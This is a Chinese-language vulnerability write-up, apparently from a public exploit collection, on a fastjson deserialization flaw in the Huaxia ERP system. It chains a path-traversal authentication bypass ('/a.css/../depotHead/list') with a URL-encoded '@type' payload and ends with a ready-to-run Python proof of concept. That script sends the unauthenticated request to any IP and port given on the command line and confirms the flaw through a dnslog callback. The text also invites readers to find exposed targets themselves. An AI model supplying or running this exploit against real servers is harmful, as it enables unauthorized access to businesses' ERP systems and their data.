







## 华夏ERP命令执行漏洞

## 漏洞描述

华夏ERP基于SpringBoot框架和SaaS模式，可以算作是国内人气较高的一款ERP项目，但经过源码审计发现其存在多个漏洞，本篇为命令执行漏洞

## 漏洞影响

> 华夏ERP

## FOFA

> 请自测

## 漏洞复现

漏洞复现：

漏洞代码位置：

```
com.jsh.erp.controller.DepotHeadController
```

漏洞代码分析：

pom.xml文件中引用了fastjson，且版本为1.2.55



查看代码发现com.jsh.erp.controller.DepotController存在反序列化



但在靶场站点未找到该接口，推测靶场站代码未更新，发现流量中存在另一个使用search参数的接口，进行反序列化测试：



对了要URL编码一下。。。



接下来就是见证奇迹的时刻，dnslog收到dns请求！



##组合拳-未授权命令执行

利用方式：

很简单，就是两个漏洞合并一下，如下：



可以看到我是没有携带Cookie的，dnslog依然收到了请求



组合拳的POC：

使用方法：

```
python3 华夏erp_fastjson.py x.x.x.x 80 qingy.dnslog.cn (替换你的dnslog地址)
```

源码：

```python
import socket,sys,re

def SendGet(res,ip,port):
    request = re.sub('[\r\n]','\r\n',res)
    port = int(port)
    sock = socket.socket()   # 建立socket
    sock.connect((ip, port))    # 远程连接
    sock.send(request.encode('ascii'))  # 向socket发送数据
    response = b''   
    chunk = sock.recv(4096)    # 从socket接收数据
    print(chunk.decode())
def main(ip,port,dnslog):
    test = '{"@type":"java.net.Inet4Address","val":"'+ dnslog +'"}'
    test = test.encode('utf-8')
    test = ''.join('%{:02X}'.format(x) for x in test)
    res = '''GET /a.css/../depotHead/list?search={data}¤tPage=1&pageSize=10 HTTP/1.1
Host: {host}
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_0_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.67 Safari/537.36 Edg/87.0.664.47
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

'''.format(data=test,host=ip+':'+port)
    #print(res)
    SendGet(res,ip,port)
main(sys.argv[1],sys.argv[2],sys.argv[3])
```